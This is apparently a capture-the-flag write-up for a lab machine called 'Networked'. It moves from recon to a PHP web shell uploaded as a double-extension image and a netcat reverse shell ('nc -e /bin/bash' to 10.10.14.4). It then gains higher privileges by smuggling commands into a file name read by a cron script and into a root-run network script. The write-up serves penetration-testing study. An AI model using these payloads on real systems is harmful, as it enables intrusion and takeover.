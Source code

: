 ```yaml
---
description: Easy machine OSCP style
---
```


# Networked

## Reconnaissance

Ensuring the machine is up. Is a Linux machine due to the TTL equal to 63 (should be 64).

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.03.21.png" alt=""><figcaption></figcaption></figure>

Scanning for the open ports with nmap. Only ports 22 and 80 are open.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.08.29.png" alt=""><figcaption></figcaption></figure>

With the open ports, we perform a version detection scan to get the versions of the services running on that ports to later look for any vulnerability for that services version.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.10.42.png" alt=""><figcaption></figcaption></figure>

To look for interesting paths into the server directory we use a nmap scan using a script called http-enum and we discover three interesting directories so we start looking into them via any browser.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.20.21.png" alt=""><figcaption></figcaption></figure>

As we can see there is a tar file so we download it to look the content of the backup.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.21.10.png" alt=""><figcaption></figcaption></figure>

Inspecting the content of the backup file we might think it is a backup of the server so we try to acces those paths via the browser again.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.23.59.png" alt=""><figcaption></figcaption></figure>

## Exploiting

At this point apparently we are able to upload an image so we try it.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.25.07.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.30.37.png" alt=""><figcaption></figcaption></figure>

At the path /photos we can see the uploaded images and our image as well. At this point we could use this image that can be uploaded to have two extensions using .php. To do this, we include php code into the image data so having this extension it is going to execute it.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.31.24.png" alt=""><figcaption></figcaption></figure>

First we change the extension of the image to have those mentioned extensions, php and jpg.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.32.41.png" alt=""><figcaption></figcaption></figure>

At any point of the file code we could include php code, in this case using system and cmd as the parameter to execute any command we want.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.34.13 (1).png" alt=""><figcaption></figcaption></figure>

Then we uploaded the image again.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.35.42.png" alt=""><figcaption></figcaption></figure>

To know where the image is stored we inspect the element and then we can access the image raw code.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.36.11.png" alt=""><figcaption></figcaption></figure>

This is the image in raw and at this point, this is where the two extension comes to use, inlcuding code via the URL as a parameter. To test it we execute `ls -l` and it was successfully executed as it can be seen in the image.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.37.33.png" alt=""><figcaption></figcaption></figure>

Using CTRL + U we can better see the result of the execution. Now we can get a shell.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.38.13.png" alt=""><figcaption></figcaption></figure>

So now, we set up a listener on the 443 port using netcat in the host.&#x20;

```
nc -nlvp 443
```

Then, using the URL again, we send as the parameter the netcat command:

```
nc -e /bin/bash 10.10.14.4 443
```

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.40.26.png" alt=""><figcaption></figcaption></figure>

And now we got a shell, but we have to perform some treatment to this shell to convert it to a interactive one.&#x20;

```
#(target)script /dev/null -c bash
CRTL + Z
#(host)stty raw -echo; fg
    reset xterm
#(target)export TERM=xterm
#(target)export SHELL=bash
#(target)stty rows X columns Y
```

At this point we are as apache so we do not have privileges to access the user flag so we need to escalate to guly.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.48.32.png" alt=""><figcaption></figcaption></figure>

As we can see in the content of the crontab file, the user guly is running as root a script called check\_attack.php every 3 minutes.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.49.10.png" alt=""><figcaption></figcaption></figure>

Now inspecting the content of the check\_attack file, we notice that at a point, it is executing system commands to remove all the stored images under the /uploads directory (which we have access). As it is marked in green, it is removinfg the file simply by concatenating the path value and the filename of the images, so it does not perform any sanitization. We could simply create a file called whatever we want and concatenate another command in the name separated with a semicolon so the script will execute it.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 20.51.39.png" alt=""><figcaption></figcaption></figure>

To exploit the vulnerability, we created a file called whatever; \[command] so when the script check\_attack is executed, it is going to send get a shell to the server which will be running in the host machine. In the image below we can see the file which was created to exploit the vulnerability.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.00.44.png" alt=""><figcaption></figcaption></figure>

We set up a listener in the host to receive the shell when crontab executes the script again. Finally, after waiting, we got a shell as guly and we need to perform some steps to get an interactive shell.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.01.34.png" alt=""><figcaption></figcaption></figure>

```
#(target)script /dev/null -c bash
CRTL + Z
#(host)stty raw -echo; fg
    reset xterm
#(target)export TERM=xterm
#(target)export SHELL=bash
#(target)stty rows X columns Y
```

As guly we can get the user flag.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.03.12.png" alt=""><figcaption></figcaption></figure>

## Privilege escalation

Now, to escalate privileges we look for the privileges of the user guly and we notice that it is allowd to execute a file with root privileges and without password. The script is called /changename.sh

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.05.48.png" alt=""><figcaption></figcaption></figure>

Inspecting the content of this file, we can see that it does add some data to a file stored under the /etc/sysconfig/network-scripts/ifcfg-XXXX.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.06.41.png" alt=""><figcaption></figcaption></figure>

Searching on the Internet, we reached to a web where a user found an issue that enables a user with privileges to write in that directory to become root, which is exactly our situation. Aparently, when the script requests the interface name, we can simply concatenate any command separated by a space and it will be executed.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.11.03.png" alt=""><figcaption></figcaption></figure>

In this case we test with whoamin to prove that it returns the user executing the script.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.12.22.png" alt=""><figcaption></figcaption></figure>

At this point we could simply especify a bash in the interface name to get a shell when the script gets executed.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.13.19.png" alt=""><figcaption></figcaption></figure>

Finally we are root. We just have to find the flag and PWNED!

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.15.06.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-22 a las 21.14.49.png" alt=""><figcaption></figcaption></figure>
